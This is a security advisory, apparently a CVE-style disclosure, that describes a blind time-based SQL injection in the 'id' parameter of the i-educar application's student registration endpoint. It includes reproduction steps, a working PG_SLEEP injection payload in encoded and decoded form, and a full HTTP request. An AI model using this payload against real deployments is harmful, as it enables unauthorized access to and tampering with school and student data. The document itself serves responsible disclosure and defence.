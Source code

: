 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `module/Cadastro/aluno` Endpoint

### Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/module/Cadastro/aluno</code> endpoint of the i-educar application, specifically in the <code>id</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### Details

Vulnerable Endpoint: `/module/Cadastro/aluno`

Parameter: `id`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>id</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### PoC

#### Step by Step:

<p align="justify">Access endpoint <code>/intranet/educar_aluno_lst.php</code> and choose (click on) any register. For this example was choosen <code>"Gael"</code> student which id = 208. In the student page <code>/intranet/educar_aluno_det.php?cod_aluno=208</code> click on <code>"Editar"</code> to be redirected to vulnerable endpoint. The payload must be inserted after <code>id</code> number (e.g. “id=208<code>payload</code>”)</p>

![](/CVEs/images/SQLi9.png)

![](/CVEs/images/SQLi10.png)

![](/CVEs/images/SQLi11.png)

##

#### Payload:

````html
%27%20AND%209581=(SELECT%209581%20FROM%20PG_SLEEP(5))%20AND%20%27bffB%27=%27bffB
````

#### Decoded Payload:

````html
' AND 9581=(SELECT 9581 FROM PG_SLEEP(5)) AND 'bffB'='bffB
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /module/Cadastro/aluno?id=208%27%20AND%209581=(SELECT%209581%20FROM%20PG_SLEEP(5))%20AND%20%27bffB%27=%27bffB HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=bnTu3HZ4Jk5a0JxRERNMd03ZAr1TUGvXZTDs9DdE
Connection: keep-alive
````
##

#### Normal Request:

![](/CVEs/images/SQLi12.png)

#### SQLi Request:

![](/CVEs/images/SQLi13.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

---

### Impact

<p align="justify">
<ul>
  <li>Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details</li>
  <li>Database enumeration: Extracting database schema, tables, and column details</li>
  <li>Data manipulation: Adding, modifying, or deleting database records.</li>
  <li>Denial of Service (DoS): Using time-based queries to impact system availability.</li>
  <li>Potential escalation to RCE: If combined with other vulnerabilities and specific database features.</li>
</ul>
</p>

---

### Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.g@aluno.ifsp.edu.br)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*